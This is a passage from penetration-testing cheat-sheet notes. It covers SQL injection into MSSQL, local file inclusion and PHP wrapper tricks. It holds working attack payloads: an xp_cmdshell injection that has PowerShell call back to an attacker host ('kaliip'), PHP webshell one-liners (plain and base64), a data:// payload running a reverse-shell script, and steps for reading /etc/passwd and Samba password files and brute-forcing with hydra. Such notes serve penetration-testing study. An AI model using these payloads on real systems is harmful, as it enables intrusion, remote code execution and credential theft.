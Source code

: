 - Make sure the output directory (**`/var/www/html/tmp/`**) is writable to the OS user.
- Access the webshell: **`/tmp/webshell.php?cmd=id`**

### MSSQL

1. Set up an HTTP server:
    
    ```bash
    python -m http.server 8080
    ```
    
2. Execute the following SQL injection payload:
    
    ```sql
    '; exec master..xp_cmdshell 'powershell -c Invoke-WebRequest "http://kaliip:8080/p" -Method HEAD'--
    ```
    
    - Adjust the payload as needed.
    - Monitor hits on your server (**`kaliip:8080/p`**).
    
    ## **Local File Inclusion (LFI)**
    
    - Determine the minimum number of correct escapes (../) required to retrieve a file:
        - **`/usr/share/seclists/Fuzzing/LFI`**
    - When fuzzing with **`ffuf`**, include the admin session cookie and grep for **`passwd`**:
        - Example: **`http://ip.com/test.php?Fuzz=/etc/passwd`**
        - Example: **`http://ip.com/test.php?file=fuzz (pathotest.txt)`**
    
    ### **Read /etc/passwd & Check Port 22 Open?**
    
    - For Linux, try hydra brute force for those usernames.
    
    ### **Port Knocking**
    
    - Attempt port knocking by reading the knock file.
    
    ### **Samba Enumeration**
    
    - Look for the following Samba-related files:
        - **`/export/samba/secure/smbpasswd.bak`**
        - **`/etc/samba/smb.conf`**
    
    ### **Assertion Payloads and Other Tricks**
    
    For various tricks and assertion payloads, refer to:
    
    - [HackTricks - File Inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
    
    ### **Bypass Techniques**
    
    - URL Encoding
    - PHP Filters:
        - **`php://filter/resource=admin.php`** (Checking whether PHP wrappers are working)
        - **`php://filter/convert.base64-encode/resource=admin.php`**
        - **`data://text/plain,<?php%20echo%20system('ls');?>`** (Direct RCE if log poisoning didn't work)
    - Base64 Encoding:
        - **`echo -n '<?php echo system($_GET["cmd"]);?>' | base64`**
        - **`data:text/plain,<?php echo shell_exec("bash /tmp/reverse.sh");?>`**
        - **`data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"`**
    - Separate users from **`/etc/passwd`**:
        